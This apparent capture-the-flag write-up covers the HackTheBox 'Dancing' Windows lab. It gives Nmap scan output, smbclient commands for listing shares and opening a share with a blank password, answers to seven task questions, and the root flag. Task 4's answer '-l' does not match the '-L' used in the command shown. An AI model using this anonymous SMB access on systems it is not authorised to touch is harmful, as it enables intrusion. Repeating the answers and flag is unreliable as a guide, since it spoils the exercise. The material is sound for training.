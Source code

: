 ```
Platform: HackThebox
Challenge: Dancing
OS: Windows
Task: Network ,Protocols, SMB, Penetration Tester Level 1, Reconnaissance, Anonymous/Guest Access
Tools Used: Windows, smbclient
Author: Paul B.
```

### Scanning
Nmap output:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-04 20:54 IST
Nmap scan report for 10.129.158.119
Host is up (1.8s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m00s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-04T19:24:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.85 seconds

```
### SMB Enumeration
SMB list shares:
`smbclient -L <target ip>`
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk 
```

SMB enumerate share
`smbclient \\\\<target ip>\\WorkShares`


TASK 1
What does the 3-letter acronym SMB stand for?
```
server message block
```

TASK 2
What port does SMB use to operate at?
```
445
```

TASK 3
What is the service name for port 445 that came up in our Nmap scan?
```
microsoft-ds
```

TASK 4
What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?
```
-l
```

TASK 5
How many shares are there on Dancing?
```
4
```

TASK 6
What is the name of the share we are able to access in the end with a blank password?
```
WorkShares
```

TASK 7
What is the command we can use within the SMB shell to download the files we find?
```
get
```

SUBMIT root flag
```
5f61c10dffbc77a704d76016a22f1664
```
